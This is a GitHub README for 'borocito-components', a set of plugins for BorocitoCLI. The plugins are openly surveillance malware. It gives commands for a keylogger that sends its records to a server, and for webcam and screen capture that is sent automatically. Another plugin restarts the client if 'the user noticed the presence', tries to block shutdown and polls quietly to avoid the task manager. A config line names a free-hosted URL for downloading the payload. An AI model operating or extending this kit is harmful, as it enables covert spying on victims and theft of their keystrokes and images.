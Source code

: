 # borocito-components
Complementos para Borocito CLI  

## Complements
These plugins were created to enrich the experience with BorocitoCLI.  

They're not perfect, but they're not disappointing either. Well, it really depends on how they're made. I invite you to contribute to the development of these, if there is something, an error, bug, an idea, etc, contribute, I will greatly appreciate it, and those of us who use these complements too.  

### Using it
All plugins here, except for the 'boro-get' package manager, were created by Zhenboro. Yeah, and besides the fact that I made them, they need to be installed by 'boro-get'.  
boro-get is a module within BorocitoCLI. It's totally inside, well implemented. So, initially, there should be no problem.  

#### boro-get
This must be installed, by default it is not implemented. It should be installed using the command `boro-get install`, to check if it is installed or not, use `boro-get status`, if it is already installed, great!  
Now, if you want to be sure the latest version is installed, use `boro-get uninstall`, that will uninstall boro-get. Then you can use the `boro-get install` command to download and install the latest version available on the server indicated in the file: GlobalSettings.ini  
```sh
[Components]
boro-get=http://chemic-jug.000webhostapp.com/Borocito/Boro-Get/boro-get.zip
```  
Now that boro-get is installed. We can start installing and using the packages.  

We can install a package with the command `boro-get <package> <start?> <parameters>`  
An example with broKiloger:  
`boro-get broKiloger True /startrecording`  
If the package does not require an argument:  
`boro-get broKiloger`  
(<start?> will be marked as True, the package will start)  

If you don't want to start it (just download and install it)  
`boro-get broKiloger False null`  

>NOTE: 'null' is a reserved word, it will be very useful!  

Now, lets get info about a component, with the command:  
`boro-get <package> status`  
so, an example will be:  
`boro-get broKiloger status`  
You will get information about the component. boro-hear MUST BE INSTALLED.  

Now we are going to define a concept.  
**Single Instance Package**: A package with this warning means that only one instance of it will be started. Just one.  
These are designed to do unique unrepeatable things. Like a keylogger. This is something global, why another instance?  
Also, they can receive parameters when they are already started, so you can control them.  

### boro-hear
boro-hear is a module that allows plugins to communicate (one-way C->S) with the Control Panel.  

If you make a plugin, you can make it send messages to the control panel. In your code you should put something like [this code](https://github.com/Zhenboro/borocito-components/blob/e7eda70b99cfcfa2ea3a66223cc3564703051f29/broKiloger/Utility.vb#L8-L51).  
That will start an instance of boro-hear which will send your message to the server. boro-hear is single-instance, but messages can be sent by passing parameters to it. These are picked up by boro-hear via the StartUpNextInstance event.  


### broEstoraje
This plugin is not coded yet.  
It is used to explore files. Basically [RMTFS](https://github.com/Zhenboro/RMTFS) adapted to work with FTP (or IDFTP).  

### broKiloger
broKiloger is a plugin dedicated to logging keys.  

> NOTE: Single Instance Package  

Your options are:  
```sh
/startrecording: It will start key recording.
boro-get broKiloger True /startrecording
```
```sh  
/stoprecording: It will stop the key recording and broKiloger will close.  
boro-get broKiloger True /stoprecording  
```
> NOTE: It will not save or send the record.  

```sh
/sendrecord: It will send the keylogger and then start recording again.
boro-get broKiloger True /sendrecord
```  

```sh
/resetrecord: It will clean the keylogger.
boro-get broKiloger True /resetrecord
```  
> NOTE: It will not save or send the record.  

```sh
/sendandexit: It will send the keylogging and then broKiloger will close.
boro-get broKiloger True /sendandexit
```  

### broRescue
This plugin was created because it turns out that sometimes an instance of BorocitoCLI can be closed by some external or internal factor. Perhaps the user noticed the presence and closed it, or, a command left a mess that BorocitoCLI couldn't handle.  
For this reason, broRescue is a good recommendation that it be installed.  
**And what does it do?**  
Well it's simple. If you notice that BorocitoCLI has closed. You can make broRescue restart the BorocitoCLI instance by using the command:  
`broRescue Borocito`  
and not only that, you can also start the extractor, or the updater.  
To do this, the commands will be:  
`broRescue Extractor`  
`broRescue Updater`  
Or even restart the computer with the command:  
`broRescue Restart`  
And, you can also try to prevent the computer from being turned off. with `broRescue NoShutdown` to avoid or, `YesShutdown` to not try to avoid.  
This packet reads directly from the server. Every 5 minutes. So yes, you will notice the effect in 5 minutes. And that is done so as not to load the server, and also so that it is not noticed from the task manager.  

### broScrincam
This complement doesn't work.  

This plugin is for:  
- Take photos from a Webcam  
- Record video from a Webcam  
- Record screen  

> NOTE: Single Instance Package  

```sh
/startscreenrecording: (will try) record the screen.
boro-get broScrincam True /startscreenrecording
```  

```sh
/stopscreenrecording: It is supposed to stop screen recording. That part is not scheduled yet.  
boro-get broScrincam True /stopscreenrecording
```  
> NOTE: It will not save or send the record. Not coded yet.  

```sh
/startcamrecording: It will start to record video from the webcam
boro-get broScrincam True /startcamrecording
```  

```sh
/takecampicture: It will take a screenshot of the webcam
boro-get broScrincam True /takecampicture
```  
> NOTE: It will be sent automatically.  

```sh
/stopcamrecording: It will stop the Webcam recording.
boro-get broScrincam True /stopcamrecording
```  
> NOTE: It will not save or send the record.  

```sh
/sendscreenrecord: It is supposed to stop, save and send the screen recording. This part is not coded yet.
boro-get broScrincam True /sendscreenrecord
```  
> NOTE: Not coded yet.  

```sh
/sendcamrecord: It will stop the Webcam recording and send it automatically.
boro-get broScrincam True /sendcamrecord
```
> NOTE: It will be sent automatically.

```sh
/stop: It will send the keylogger and then start recording again.
boro-get broScrincam True /stop
```

## Uninstalling a package
To uninstall, remove a package, the following points must be taken into account.
- The plugin MUST BE CLOSED. There should not be an instance of this. Read the documentation to know how to close it. *Anyways, boro-get will try to stop the plugin, but this might fail.*  
- All data from this plugin, recordings, files, etc. will be deleted.  
- They can be reinstalled, don't worry about it.  

To uninstall, use the `boro-get <package> uninstall` command.  
An example with broKiloger would be:  
`boro-get broKiloger uninstall`  

The plugins created are not perfect. I recommend you take a look at the code to know what it does and how it does it, so you avoid unpredictable behavior or bad practices.  
